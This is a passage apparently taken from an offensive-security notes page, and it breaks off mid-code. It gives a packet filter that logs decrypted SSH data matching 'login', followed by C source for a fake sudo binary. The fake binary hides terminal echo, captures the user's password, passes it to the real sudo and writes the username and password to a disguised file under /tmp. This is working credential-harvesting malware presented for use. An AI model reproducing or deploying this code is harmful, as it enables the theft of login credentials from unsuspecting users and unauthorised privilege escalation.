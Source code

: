 Log ssh decrypted packets matching the regexp:

```
if (ip.proto == TCP) {
   if (tcp.src == 22 || tcp.dst == 22) {
      if (regex(DECODED.data, ".*login.*")) {
         log(DECODED.data, "./decrypted_log");
      }
   }
}
```

## Fake Sudo Program to Harvest Credentials

Mimics legitimate Sudo binary to capture credentials and output to ```/tmp``` directory file.

```C
#include <stdio.h>
#include <stdlib.h>
#include <termios.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>


int main( int argc, char *argv[] )
{
    if( argc == 2 ) {
        struct termios oflags, nflags;
            char password[64];
            char Command[255];
            char *lgn;
            lgn = getlogin();
            struct passwd *pw;
            FILE *fp;
            /* disabling echo */
            tcgetattr(fileno(stdin), &oflags);
            nflags = oflags;
            nflags.c_lflag &= ~ECHO;
            nflags.c_lflag |= ECHONL;

            if (tcsetattr(fileno(stdin), TCSANOW, &nflags) != 0) {
                perror("tcsetattr");
                return EXIT_FAILURE;
            }

            printf("Password: ");
            fgets(password, sizeof(password), stdin);
            password[strlen(password) - 1] = 0;
            sprintf(Command, "sudo -S <<< %s command %s", password, argv[1]);
            system(Command);
            fp = fopen("/tmp/tmp-mount-sU90gRA6", "w+");
            fprintf(fp, "User: %s\tPassword: %s", lgn, password); exit(1);
            fclose(fp);
            /* restore terminal */
            if (tcsetattr(fileno(stdin), TCSANOW, &oflags) != 0) {
                perror("tcsetattr");
                return EXIT_FAILURE;
            }

    return 0;
   }
   else {
```